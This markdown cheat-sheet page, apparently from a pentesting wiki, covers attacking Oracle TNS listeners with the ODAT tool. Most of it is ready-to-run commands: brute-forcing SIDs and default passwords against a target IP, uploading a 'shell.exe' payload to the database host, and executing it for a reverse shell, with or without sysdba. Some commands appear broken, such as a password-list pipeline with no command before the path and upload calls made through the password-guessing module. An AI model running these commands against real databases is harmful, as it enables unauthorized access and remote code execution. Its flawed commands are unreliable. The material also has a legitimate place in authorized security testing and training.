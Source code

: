 # Oracle TNS Listener - 1521,1522,1529

## ODAT

{% embed url="https://github.com/quentinhardy/odat" %}

**ODAT** \(Oracle Database Attacking Tool\) is an open-source **penetration testing** tool that tests the security of **Oracle Databases remotely**.

Usage examples of ODAT:

* You have an Oracle database listening remotely and want to find valid **SIDs** and **credentials** in order to connect to the database
* You have a valid Oracle account on a database and want to **escalate your privileges** to become DBA or SYSDBA
* You have an Oracle account and you want to **execute system commands** \(e.g. **reverse shell**\) in order to move forward on the operating system hosting the database

Tested on Oracle Database **10g**, **11g**, **12c**, **18c,** and **19c**.

Your Oracle version:

```text
ls /usr/local/lib/oracle
```

Wiki of ODAT:

{% embed url="https://github.com/quentinhardy/odat/wiki" %}

### Find Valid Credentials

You can do SID guessing attack with the following command:

```
python3 odat.py sidguesser -s <IP>
```

Dictionary

```text
/usr/share/metasploit-framework/data/wordlists/oracle_default_passwords.csv | tr ' ' '/' | tail -n 50 > passwords.txt
```

After finding a valid SID:

```text
python3 odat.py passwordguesser -s <IP> -d <SID> --accounts-file passwords.txt
```

### Upload Files

```text
# No sysdba
python3 odat.py passwordguesser -s <IP> -d <SID> -U "username" -P "password" --putFile /Temp shell.exe shell.exe
# Use sysdba
python3 odat.py passwordguesser -s <IP> -d <SID> -U "username" -P "password" --putFile /Temp shell.exe shell.exe --sysdba
```

### Execute Commands

```text
# No sysdba
python3 odat.py externaltable -s <IP> -d <SID> -U "username" -P "password" --exec /Temp/shell.exe
# Use sysdba
python3 odat.py externaltable -s <IP> -d <SID> -U "username" -P "password" --exec /Temp/shell.exe --sysdba
```



